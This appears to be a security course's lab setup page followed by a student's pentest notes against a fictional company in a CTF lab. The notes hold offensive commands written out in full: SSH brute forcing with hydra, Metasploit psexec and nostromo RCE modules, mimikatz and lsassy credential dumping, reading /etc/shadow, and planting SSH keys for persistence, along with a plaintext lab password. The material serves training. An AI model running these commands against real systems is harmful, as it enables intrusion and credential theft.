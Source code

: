 # Hacker-Fundamentals
Welcome to the Hacker Fundamentals lab setup page !

To be able to participate in the lab exercises and CTF in this course you will need to have:
* An OS on which you will download a VM 
* A VM, either VirtualBox or VMWare 

1) Downloading a VM 
* If you would like to download VirtualBox, please see the instructions at the following URL: 
  https://www.virtualbox.org/wiki/Downloads
* If you would like to download VirtualBox, please see the instructions at the following URL:
  https://www.vmware.com/products/workstation-player/workstation-player-evaluation.html

2) Download Kali VM Image
A Kali VM image has been provided to you at <URL>, depending on your VM of choice please download the appropriate file (VirtualBox or VMWare)
Once the file has downloaded, unzip the file contents and click on the kali-linux-rolling-virtualbox-amd64.vbox file in order to load the Kali image into VirtualBox and if you use VMWare, drag the file to the VMWare application.

3) Downloading a VPN profile 
On your Kali VM, Please visit <URL> , and download the vpn profile that the course instructors have assigned to you. 

4) Load the VPN profile 
Once the VPN profile has been downloaded on your Kali image, open terminal and type the following command :  ``` sudo openvpn --config your_vpn_file.ovpn ```
**Do not close the terminal window where you established a VPN connection, as that will close the connection**

5) Test the VPN connection
Open a new terminal window and type the following command: ```ping IP```, 
if you receive an ICMP response, the connection works and you are now in the lab environment.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  Captain Crunch - Network Pentest
May 29, 2023
--------------------------------

Information provided by client:

domain: captaincrunch.co
IP networks: 10.10.10.0/24, 10.10.30.0/24

blee : 3120f299755272e11e898989265a2196


External Reconnaissance
-----------------------

All whois information redacted by registrar

Monica Garfield works as developer at CC
	Mentions foxtrot container on LinkedIn
	DNS recon found foxtrot.captaincrunch.co host at 64.226.83.128

	Able to login to foxtrot (10.10.10.11) via ssh brute force as Monica!

	hydra -l monica -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.11:22 -t 4

	What if Monica is a user on a Windows system that she does dev work from?

	Let's try using metasploit as her to login to a windows hosts

	msfconsole
	search psexec
	use windows/smb/psexec
	set rhosts 10.10.30.11
	set smbdomain captaincrunch.co
	set smbuser monica.garfield
	set smbpass tinkerbell
	exploit



Mimikatz:

	shell
	cd c:\tools
	.\mimikatz.exe
	sekurlsa::logonpasswords

Impacket:

	impacket-psexec monica.garfield@10.10.30.11


DNS Recon
---------

fierce --domain captaincrunch.co
gobuster dns -d captaincrunch.co -w /usr/share/wordlists/amass/subdomains.lst -i

charlie.captaincrunch.co [64.226.83.119]
delta.captaincrunch.co [64.226.105.183]
echo.captaincrunch.co [64.226.83.135]
foxtrot.captaincrunch.co [64.226.83.128]
golf.captaincrunch.co [64.226.102.67]
india.captaincrunch.co [64.226.110.16]
juliet.captaincrunch.co [142.93.105.226]


Commands used:

cat external | cut -d " " -f 2 | tr -d "[" | tr -d "]" > external.ips
nmap -iL external.ips -Pn --top-ports=1000 --open -oN external.nmap


Internal Recon
--------------

Discovery:
	nmap -sn 10.10.10.0/24 > internal
	nmap -sn 10.10.30.0/24 >> internal
	cat internal | grep report | cut -d " " -f 5 > internal.ips

Port scans:

	nmap -iL internal.ips --top-ports=1000 --open -oN internal-top-ports.nmap

With Metasploit:

	msfdb init
	msfconsole
	db_nmap 10.10.10.0/24 -p-
	db_nmap 10.10.30.0/24 -p-


Interesting Services:

ssh is open (10.10.10.2, 10.10.10.3, 10.10.10.8, 10.10.10.9)
12345 open on 10.10.10.12
31337 open on 10.10.10.9 (likely web server httpd 2.4.38)
	Running wordpress
	WPScan confirmed vulnerabilities 
8000 is open  on 10.10.10.9
55555 open 10.10.10.13 (simplehttpserver ?)
	/credit contains ssh key for tigerwoods
	dirb http://10.10.10.13:55555 /usr/share/wordlists/dirb/small.txt

10.10.30.10 likely domain controller (domain: captaincrunch.co)
Windows hosts (10.10.30.11, 10.10.30.12)
6666 open on 10.10.30.11
5984 and 49153 open on 10.10.30.20 (unusual ports = interesting)
	5984 running couchdb 1.6.0 (RCE available!!)
	49153 running nostromo 1.9.6 (RCE available!!!)
		Exploited with Metasploit
		msfconsole
		use (multi/http/nostromo_code_exec
		set rhost 10.10.30.20
		set rport 32768
		set lhost tun0
		exploit
		

SSH keygen

	ssh-keygen
	enter - enter - enter
	ssh monica@10.10.10.11    tinkerbell
	nano ~/.ssh/authorized_keys
	paste PUBLIC key here
	exit 
	ssh -i private_key monica@10.10.10.11


Linux PrivEsc
	
	./linpeas.sh
	sudo -l
	sudo cat /etc/shadow

Tigerwoods lateral movement:

	ls -la
	chmod 600 tigerwoodskey
	ssh -i tigerwoods@10.10.10.10
	Try to put your private key in authorized_keys like before to get access with your private key

Windows Post Exploitation:

	net user
	net user /domain
	net group "Domain Admins" /domain
	


Commands:

	wpscan --url http://10.10.10.9:31337
	nikto -host 10.10.10.13 -port 55555

 	crackmapexec smb 10.10.30.11 -u monica.garfield -p tinkerbell -M lsassy
